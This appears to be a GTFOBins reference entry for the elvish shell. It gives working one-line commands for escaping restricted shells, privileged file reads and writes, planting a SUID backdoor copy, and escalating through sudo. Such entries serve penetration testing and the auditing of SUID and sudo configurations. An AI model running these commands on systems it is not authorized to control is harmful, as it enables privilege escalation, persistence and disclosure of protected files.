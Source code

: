 # GTFOBin: elvish

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
elvish
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
export LFILE=file_to_write
elvish -c 'echo DATA >$E:LFILE'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
export LFILE=file_to_read
elvish -c 'echo (slurp <$E:LFILE)'
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which elvish) .

./elvish
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo elvish
```